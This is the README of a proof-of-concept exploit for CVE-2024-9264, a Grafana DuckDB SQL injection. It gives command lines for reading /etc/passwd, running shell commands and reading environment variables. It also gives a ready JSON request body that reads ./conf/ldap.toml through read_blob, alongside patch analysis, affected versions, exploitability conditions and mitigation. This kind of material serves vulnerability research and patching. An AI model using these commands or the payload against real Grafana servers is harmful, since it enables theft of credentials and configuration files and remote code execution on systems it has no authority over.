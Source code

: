 # CVE-2024-9264  
## Grafana Post-Auth DuckDB SQL Injection (RCE, File Read)

### Proof of Concept (PoC)

This PoC demonstrates the exploitation of CVE-2024-9264 using an authenticated user to perform a DuckDB SQL query and read an arbitrary file on the filesystem or execute arbitrary code remotely.

**Arbitrary code can only be executed on Grafana v11.0.0.**

Files can be read in all vulnerable versions.

**Setup:**
Install the required dependencies via:
```bash
pip install -r requirements.txt
```

## Usage
**File Read (Universal):**
```bash
python3 CVE-2024-9264.py -u user -p pass  -f /etc/passwd  http://localhost:3000
```

**Command execution (v11.0.0 only)**
```bash
python3 CVE-2024-9264.py -u user -p user -c <shell-cmd> http://localhost:3000
```

You can also execute arbitrary DuckDB queries, such as calling `getenv` to retrieve environment variables:
```bash
python3 CVE-2024-9264.py -u user -p pass -q "SELECT getenv('PATH')" http://localhost:3000
```

The list of utility DuckDB functions that can be exploited can be found [here](https://duckdb.org/docs/sql/functions/utility).

### Vulnerability Overview

[CVE-2024-9264](https://grafana.com/security/security-advisories/cve-2024-9264) is a DuckDB SQL injection vulnerability in Grafana's experimental SQL Expressions feature. Any authenticated user can execute arbitrary DuckDB SQL queries through modified expressions in Grafana dashboards.

**Affected Versions:**
- Grafana OSS and Enterprise versions 11.0.0 - 11.0.5, 11.1.0 - 11.1.6, and 11.2.0 - 11.2.1.

**Patched Versions:**
- 11.0.5+security-01 and higher

### Finding the Patch

Grafana released special versions to fix this vulnerability. To analyze the patch, the following commands can be used to compare the changes:

```bash
git checkout v11.0.5+security-01
git diff 0421a8911cfc05a46c516fd9d033a51e52e51afe 70316b3e1418c9054017047e63c1c96abb26f495
```

This reveals that the SQL Expressions feature was simply removed from the vulnerable versions.

```diff
+++ b/pkg/expr/sql/db.go
@@ -0,0 +1,26 @@
+package sql
+
+import (
+       "errors"
+
+       "github.com/grafana/grafana-plugin-sdk-go/data"
+)
+
+type DB struct {
+}
+
+func (db *DB) TablesList(rawSQL string) ([]string, error) {
+       return nil, errors.New("not implemented")
+}
+
+func (db *DB) RunCommands(commands []string) (string, error) {
+       return "", errors.New("not implemented")
+}
+
+func (db *DB) QueryFramesInto(name string, query string, frames []*data.Frame, f *data.Frame) error {
+       return errors.New("not implemented")
+}
+
+func NewInMemoryDB() *DB {
+       return &DB{}
+}
```

```diff
@@ -85,7 +84,7 @@ func (gr *SQLCommand) Execute(ctx context.Context, now time.Time, vars mathexp.V
 
        rsp := mathexp.Results{}
 
-       duckDB := duck.NewInMemoryDB()
+       duckDB := sql.NewInMemoryDB()
        var frame = &data.Frame{}
        err := duckDB.QueryFramesInto(gr.refID, gr.query, allFrames, frame);
        if err != nil {
```

The patch removes SQL Expressions entirely, preventing the possibility of exploitation.

### Exploiting the Vulnerability

1. **Launch Grafana**:
   Run Grafana with version 11.0.5:
   ```bash
   docker run --name=grafana -p 3000:3000 grafana/grafana-enterprise:11.0.5
   ```

2. **Modify an Expression**:
   Create a dashboard with an expression like "Math", intercept the request with Burp, and modify the `datasource` type from `math` to `sql`.

   A HTTP request will be sent to `/api/ds/query?ds_type=__expr__&expression=true&requestId=Q101`.

   Below is the minimal JSON required to perform a DuckDB SQL query to read an arbitrary file like `./conf/ldap.toml`:
   ```json
   {
     "queries": [
       {
         "refId": "B",
         "datasource": {
           "type": "__expr__",
           "uid": "__expr__",
           "name": "Expression"
         },
         "type": "sql",
         "hide": false,
         "expression": "SELECT content FROM read_blob(\"./conf/ldap.toml\")",
         "window": ""
       }
     ],
     "from": "1729313027261",
     "to": "1729334627261"
   }
   ```
No dashboard needs to present for the actual exploitation, it's just an easy way to find the HTTP request to execute a query.

### Likelihood of Exploitability

It's important to note that while this vulnerability is critical, its exploitability depends on whether the DuckDB binary is installed on the Grafana server. **By default, Grafana does not ship with DuckDB installed**, and there is no option to install it directly from the Grafana interface. 

**For this vulnerability to be exploitable, an administrator must have manually installed DuckDB and added it to the Grafana server's `$PATH`.** If DuckDB is not present, the SQL injection vulnerability cannot be leveraged, significantly reducing the likelihood of successful exploitation in default installations.

### Mitigation

Update Grafana to patched versions, and ensure that the DuckDB binary is not present in the `$PATH` if patching is delayed.

### Credits

This PoC uses the [ten](https://github.com/cfreal/ten) framework developed by [cfreal](https://github.com/cfreal).
